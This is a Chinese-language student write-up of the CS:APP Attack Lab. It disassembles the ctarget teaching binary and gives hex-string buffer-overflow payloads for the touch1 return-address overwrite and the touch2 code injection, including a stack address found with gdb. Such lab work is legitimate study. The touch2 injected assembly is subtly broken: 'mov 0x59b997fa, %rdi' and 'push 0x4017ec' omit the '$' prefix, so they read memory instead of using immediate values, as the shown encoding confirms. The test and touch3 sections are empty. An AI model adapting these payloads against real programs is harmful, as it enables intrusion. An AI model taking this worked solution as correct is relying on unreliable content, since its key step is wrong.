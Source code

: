 # 任务理解
> 具体请详细阅读[readme](http://csapp.cs.cmu.edu/3e/README-attacklab)和[writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf)


简单来说，ctarget和rtarget是两个有buffer overflow bug的程序。我们需要通过code injection(代码注入) 和 returned-oritened programming（返回导向编程）的方式攻击这两个程序。

而这个bug的来源就是他们会通过标准化输入读取一段字符串，并存到栈上。

测试方法如下：
```
    unix> ./hex2raw < xxx.txt | ./ctarget -q
```
xxx.txt 就是输入的内容。要求输入为16进制数字对，用空格隔开。

# 基础知识
1. call指令
   将PC值压入栈空，jmp到函数所在为止
2. ret指令
   pop PC

# 准备工作
- 反汇编ctarget
```
objdump -S ctarget > ctarget.lst
```
- 可以安装gdb插件gdb-peda，方便调试

## 程序入口test函数
```asm
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	call   4017a8 <getbuf>
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	call   400df0 <__printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
  401990:	c3                   	ret    
```
## getbuf

```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret   
```
栈空间分配了0x28 = 40B空间，这个空间用来存放标准输入的数据。

# touch1

``` asm
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	call   400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	call   401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	call   400e40 <exit@plt>
```
为了让test调用完getbuf()后，不会回到test函数，而是跳转到touch1()，需要修改栈中存储的PC值。
那么可以通过传入字符串填满getbuf()栈空间，并且修改栈中的PC值，所以传入字符串大小大于40B，40B数据后为touch1地址。
touch1.txt如下：
```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40 00 00 00 00 00
```
# touch2

## 分析任务要求

在touch1中看到终端显示：
Cookie: 0x59b997fa

touch2地址=00000000004017ec

touch2函数在writeup中有C语言代码，可以看出，touch2是将输入参数与cookie比较，如果相等才能成功

现在解决level2问题有以下关键点：
1. getbuf后跳转到touch2。在getbuf后注入一段代码，通过ret执行这个操作。和touch1操作不同是除了跳转还要执行特定代码。
2. touch2输入参数为cookie值，也就是将cookie值存放到%rdi。
3. 这段注入代码注入的位置在哪里？--getbuf函数栈顶位置

## 注入代码
```asm
mov 0x59b997fa, %rdi # cookie val
push 0x4017ec  # touch2 addr
ret # pop 0x4017ec = PC, jmp to here
```
将上述汇编代码touch2.s转为16进制代码：
unix> gcc -c touch2.s
unix> objdump -d touch2.o > touch2.d

touch2.d内容如下：

```asm
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 8b 3c 25 fa 97 b9 	mov    0x59b997fa,%rdi
   7:	59 
   8:	ff 34 25 ec 17 40 00 	push   0x4017ec
   f:	c3                   	ret 
```
## 注入位置
```asm
(gdb) b getbuf
Breakpoint 1 at 0x4017a8: file buf.c, line 12.
(gdb) r -q -i t1raw.txt 
Starting program: /home/eve/work/CSAPP3e-lab-self-study/03-attack/ctarget -q -i t1raw.txt
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:12
12      buf.c: 没有那个文件或目录.
(gdb) p /x $rsp
$1 = 0x5561dca0
```
## 最终输入touch2.txt

```
48 8b 3c 25 fa 97 b9 59
ff 34 25 ec 17 40 00 c3 # 注入代码，栈顶
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
a0 dc 61 55 00 00 00 00 # 栈底
```
## 测试

# touch3

